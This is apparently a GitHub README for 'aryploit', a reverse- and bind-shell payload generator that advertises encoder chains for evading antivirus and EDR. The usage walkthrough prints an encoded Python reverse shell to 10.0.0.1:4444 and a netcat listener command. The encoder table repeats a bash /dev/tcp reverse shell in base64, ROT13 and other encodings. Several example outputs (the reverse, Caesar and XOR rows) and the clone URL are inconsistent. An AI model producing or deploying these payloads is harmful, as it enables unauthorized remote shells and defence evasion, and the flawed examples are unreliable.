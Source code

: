 <div align="center">
  <h1>🔥 ARYPLOIT</h1>
  <p>
    <strong>Metasploit-style reverse/bind shell generator with advanced encoders for red teamers & pentesters</strong>
  </p>

</div>

---

## **🚀 What is ARYPLOIT?**
**aryploit** is a **Metasploit-inspired**, **all-in-one payload generator** for **reverse shells, bind shells, and advanced encoding**. Built for **red teamers, pentesters, and CTF players**, it simplifies payload generation with **10+ encoders**, **cross-platform support (Linux/Windows/Web)**, and **evasion techniques** to bypass AV/EDR.

⚠️ **For authorized testing & educational purposes only.**

---

## **🔥 Features**
✅ **100+ Payloads** – Reverse & bind shells for **Linux, Windows, PHP, ASP, JSP, PowerShell, Python, Ruby, Perl, and more**.
✅ **Advanced Encoders** – Chain **Base64, URL, Hex, ROT13, XOR, Caesar, Binary, Octal, HTML, Unicode** for evasion.
✅ **Search & Filter** – Quickly find payloads with `search payload linux` or `search encoders base64`.
✅ **Listener Examples** – Auto-generate **Netcat, Socat, Python** listener commands.
✅ **Modular & Extensible** – Easy to add **custom payloads, encoders, and listeners**.
✅ **CTF & Red Team Ready** – Designed for **real-world engagements** and **capture-the-flag challenges**.

---

## **📌 Installation**
### **From GitHub (Recommended)**
```bash
git clone https://github.com/giriaryan694-a11y/aryploi.git
cd aryploit


pip3 install -r requirements.txt
python3 aryploit.py

1. List Payloads
 Copyaryploit > list rev_payloads linux
reverse/linux/bash_tcp
reverse/linux/python
reverse/linux/perl
...
Filter by keyword:
 Copyaryploit > search payload tcp
reverse/linux/bash_tcp
reverse/windows/powershell
...
2. Select a Payload
 Copyaryploit > use reverse/linux/bash_tcp
[+] Loaded payload: reverse/linux/bash_tcp
Or use set payload:
 Copyaryploit > set payload reverse/linux/bash_tcp
3. Set LHOST & LPORT
 Copyaryploit > set lhost 10.0.0.1
aryploit > set lport 4444
4. Apply Encoders (Single or Chained)
 Copyaryploit > set encoder base64,url,hex
[+] Encoder chain set: base64, url, hex
5. Generate Payload
 Copyaryploit > generate
[+] Generated Payload:
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiw0NDQ0KSk7b3MuZHVwMjoocy5maWxlbm8oKSwMCk9TKSwgb3MuZHVwMjoo...
6. Start a Listener
 Copyaryploit > listener nc
[+] Listener Example (nc): nc -lvnp 4444
```
🛠️ Encoders (Evasion & Obfuscation)

Encoder,Description,Example Output
base64,Standard Base64 encoding,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=
url,URL encoding,bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F...
hex,Hexadecimal encoding,62 61 73 68 20 2d 69 20 3e 26 20 2f 64 65 76
xor,XOR encoding (key: 0x55),¶¬¦¬§¦¬¦§¬¶¦§¬¶¦§¬¶
rot13,ROT13 cipher,onfu -v >& /qri/gpc/10.0.0.1/4444 0>&1
reverse,Reverse the string,1>0& 4444/1.0.0.10 cpd/cte/evd/ :ptth
caesar,Caesar cipher (shift +3),edvk -l >& /gfy/wfs/10.0.0.1/4444 0>&1
binary,8-bit binary,01100010 01100001 01110011 01101000
unicode,Unicode escape,\u0062\u0061\u0073\u0068
